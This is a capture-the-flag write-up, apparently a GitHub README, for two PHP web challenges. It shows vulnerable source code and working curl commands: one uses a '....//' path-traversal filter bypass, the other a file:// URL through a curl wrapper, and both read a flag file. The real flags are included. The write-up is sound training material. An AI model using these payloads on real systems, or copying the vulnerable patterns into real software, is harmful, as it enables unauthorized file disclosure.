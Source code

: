 # Web Challenges

### Index
___
1. [Web Ministrypalace](#web-ministrypalace)
2. [Web CaaS](#web-caas)

### Web Ministrypalace
___
![](images/web-ministrypalace.png)

There's not much here except the different language options at the top right corner of the page, which are links to the following:
```html
<a href="?lang=en.php">EN</a>
<a href="?lang=qw.php">QW</a>
```

The `index.php` file provided contains the following php snippet:
```php
<?php
$lang = ['en.php', 'qw.php'];
    include('pages/' . (isset($_GET['lang']) ? str_replace('../', '', $_GET['lang']) : $lang[array_rand($lang)]));
?>
```
The above php snippet does the following:
1. If the `GET` parameter is empty it loads either `en.php` or `qw.php` at random from the `pages` directory .
2. It tries to prevent a _directory traversal_ attack by replacing `'../'` with an empty string `''`.
    * A _directory traversal_ vulnerability allows an attacker to read an arbitrary file from the target system by specifying its path.
    * eg) `http://target.com/?q=/etc/passwd`
    * the directive `../` is a relative path to the parent directory from the current directory.

We can bypass the filter with `'....//'`, since the first matching `'../'` will get replaced by `''` and the outer `'../'` gets preserved.

Looking at the `Dockerfile` provided, the `flag` is located in the `root` directory of the web app. 
```Dockerfile # Copy challenge files
COPY challenge /www
COPY flag /
```
Now we need to locate the `flag` relative to the `pages` directory. 
```shell
$ find . 2>/dev/null               
.
./build_docker.sh
./challenge
./challenge/index.php
...
./challenge/pages
./challenge/pages/qw.php
./challenge/pages/en.php
./flag
```

We can test our exploit on the local docker instance first with the following command.
```shell
$ curl -s "http://172.17.0.2/?lang=....//....//flag" | grep -oE "CHTB{.*}"
CHTB{f4k3_fl4g_f0r_t3st1ng}
```

Success! Running the same command on the URL provided will gives us the flag.

```Flag = CHTB{b4d_4li3n_pr0gr4m1ng} ```

___

### Web CaaS
___
![](images/web-caas.png)
The website seems to execute a curl command with the host provided. 
![](images/web-caas-invalid.png)
After testing arbitary hostnames the command executes only upon entering a valid URL such as `http://172.17.0.2`.
![](images/web-caas-valid.png)

Let's analyse the source code provided to understand this better.
- index.php
    - It allows is to perform a `GET` or `POST` request to the routes `'/'` and `'/api/curl'` respectively, which in turn execute a method from `CurlController`.

```php
<?php 
date_default_timezone_set('UTC');

spl_autoload_register(function ($name){
    if (preg_match('/Controller$/', $name))
    {
        $name = "controllers/${name}";
    }
    else if (preg_match('/Model$/', $name))
    {
        $name = "models/${name}";
    }
    include_once "${name}.php";
});

$router = new Router();
$router->new('GET', '/', 'CurlController@index');
$router->new('POST', '/api/curl', 'CurlController@execute' );

$response = $router->match();

die($response);          
```
- CurlController.php
    - `index()` just routes the user to `index.html` page
    - `execute()` checks if the `ip` parameter of the POST request is set, creates a new command with the url value passed in the request body, excutes it and returns a JSON object. 
```php
<?php
class CurlController
{
    public function index($router)
    {
        return $router->view('index');
    }

    public function execute($router)
    {
        $url = $_POST['ip'];

        if (isset($url)) {
            $command = new CommandModel($url);
            return json_encode([ 'message' => $command->exec() ]);
        }
    }
}
```
- CommandModel.php
    - the constructor intialiases the curl command.
    - `exec()` calls the inbuilt php `exec()` function to execute the command.
```php
<?php
class CommandModel
{
    public function __construct($url)
    {
        $this->command = "curl -sL " . escapeshellcmd($url);
    }

    public function exec()
    {
        exec($this->command, $output);
        return $output;
    }
}
```
Since a valid URL can have many different protocols such `http, https, ftp, file,` etc., we can use the file protocol to retrieve the `flag`.

Once again by looking at the `Dockerfile` provided, the `flag` is located in the `root` directory of the web app. 
```Dockerfile 
# Copy challenge files
COPY challenge /www
# Copy flag
COPY flag /
```

We can test our exploit on the local docker instance first by running the following command.
```shell
$ curl -X POST -F "ip=file://localhost/flag" "http://172.17.0.2/api/curl" | grep -oE "CHTB{.*}"
CHTB{f4k3_fl4g_f0r_t3st1ng}
```

Success! Running the same command on the URL provided will gives us the flag.

```Flag = CHTB{f1le_r3trieval_4s_a_s3rv1ce}```